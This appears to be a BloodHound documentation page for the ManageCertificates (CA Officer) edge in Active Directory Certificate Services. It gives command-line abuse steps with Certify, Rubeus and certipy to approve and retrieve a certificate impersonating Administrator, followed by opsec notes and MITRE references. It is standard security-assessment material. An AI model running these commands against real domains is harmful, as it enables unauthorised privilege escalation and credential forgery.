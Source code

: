 ```yaml
---
title: ManageCertificates
description: The principal has the "Manage Certificates", also known as "CA Officer", permission on the Enterprise CA. 
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

This permission allows the principal to approve certificate requests that require manager approval and to modify certain properties (e.g., adding extensions to pending certificates). It does not by itself guarantee a privilege escalation but often removes a final barrier (manager approval) in ADCS abuse paths.

## Abuse Info

An attacker can identify ADCS escalation opportunities where manager approval on a template prevents direct abuse, but leverage the Certificate Manager role to approve the pending request. Alternatively, the role can be abused to add an extension to pending certificates (e.g., to insert a group-linked issuance policy in environments using Authentication Mechanism Assurance (AMA)). See [Certify wiki - Escalation Techniques - ManageCertificates](https://github.com/GhostPack/Certify/wiki/4-%E2%80%90-Escalation-Techniques#managecertificates) for details.

### Windows

Request a certificate that requires manager approval (example ESC1 scenario):
```cmd
Certify.exe request --ca ca01.corp.local\CORP-CA01-CA --template CustomUser --upn Administrator --sid S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-500
```
Note the printed private key and request ID. Approve the certificate:
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --issue-id 1337
```
Download the issued certificate with the embedded private key (Base64 PFX):
```cmd
Certify.exe request-download --ca ca01.corp.local\CORP-CA01-CA --id 1337 --private-key <Base64PrivateKey>
```
Authenticate using the certificate (Rubeus example):
```cmd
Rubeus.exe asktgt /user:Administrator /certificate:<Base64PFX> /ptt
```

### Linux

Approve a pending request:
```bash
certipy ca -ca 'corp-DC-CA' -issue-request 785 -username john@corp.local -password 'Passw0rd'
```
Retrieve the issued certificate:
```bash
certipy req -username john@corp.local -password 'Passw0rd' -ca corp-DC-CA -target ca.corp.local -retrieve 785
```

## Opsec Considerations

Approving requests generates issuance events and stores issued certificates on the CA host. Repeated approvals or unusual patterns (e.g., high-value templates) may be monitored. Added extensions or policy changes may be auditable depending on CA logging configuration.

## Edge Schema

Source: [User](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/user), [Group](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/group), [Computer](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/computer)   
Destination: [EnterpriseCA](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/enterprise-ca)   
Traversable: **Yes**  


## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* [T1649: Steal or Forge Authentication Certificates](https://attack.mitre.org/techniques/T1649/)

### Abuse and Opsec references

* [Certified Pre-Owned](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* [Certify wiki - Escalation Techniques - ManageCertificates](https://github.com/GhostPack/Certify/wiki/4-%E2%80%90-Escalation-Techniques#managecertificates)
* [ESC7: Dangerous Permissions on CA (Certipy wiki)](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc7-dangerous-permissions-on-ca)



